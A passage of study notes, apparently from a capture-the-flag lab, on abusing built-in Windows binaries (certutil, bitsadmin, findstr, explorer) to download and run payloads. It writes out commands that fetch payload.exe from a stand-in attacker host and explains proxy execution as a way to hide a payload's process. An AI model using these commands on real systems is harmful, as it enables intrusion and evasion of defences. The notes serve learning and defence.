 Download files:
```C
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
```

- `-urlcache` to display URL, enables the URL option to use in the command
- `-split -f ` to split and force fetching files from the provided URL.

The certutil.exe can be used as an encoding tool where we can encode files and decode the content of files

```C
certutil -encode payload.exe Encoded-payload.txt
```

**BITSAdmin:**

Download and execute:
```C
bitsadmin.exe /transfer /Download /priority Foreground http://Attacker_IP/payload.exe c:\Users\thm\Desktop\payload.exe
```

**FindStr:**

findstr.exe to download remote files from SMB shared folders within the network as follows,

```C
findstr /V dummystring \\MachineName\ShareFolder\test.exe > c:\Windows\Temp\test.exe
```

- `/V` to print out the lines that don't contain the string provided.

- `dummystring` the text to be searched for; in this case, we provide a string that must not be found in a file.

- `> c:\Windows\Temp\test.exe` redirect the output to a file on the target machine.

## File Execution
---
The typical case of executing a binary involves various known methods such as using the command line `cmd.exe` or from the desktop (GUI). In our case we can achieve **payload execution by abusing system binaries** with two main reason in mind is either two hide or harden the payload's process.

In MITRE ATT&CK framework, this technique is called S**igned Binary Proxy Execution** or **Indirect Command Execution**.

**File explorer:**

`explorer.exe` can be abused to execute malicious scripts as this is the file manager and system component for Windows:

```C
explorer.exe /root,"C:\Windows\System32\calc.exe"
```

**Note:** double clicking an executable will have a parent of `explorer.exe`.

**wmic:**
